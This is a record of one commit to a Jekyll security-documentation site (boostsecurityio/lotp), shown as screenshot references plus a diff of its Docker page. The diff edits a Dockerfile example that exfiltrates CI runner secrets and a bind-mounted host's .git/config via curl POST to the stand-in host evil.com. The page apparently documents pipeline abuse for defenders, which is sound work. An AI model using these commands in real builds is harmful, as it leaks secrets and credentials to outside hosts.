

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/docker.md, in a window 1280 px wide, cut to the strip 0-904 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
docker exfiltrate fix

````diff
--- a/_tool/docker.md
+++ b/_tool/docker.md
@@ -29,7 +29,8 @@
 Exflitrating runner secrets
 ```Dockerfile
 FROM alpine/curl
-ADD /home/runner/.docker/config.json config.json
 RUN --mount=type=secret,id=<secret_name> \
-    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com
+    curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com;
+RUN --mount=type=bind,source=/,target=/host \
+    curl -X POST -d "/host/.git/config" http://evil.com
 ```
````
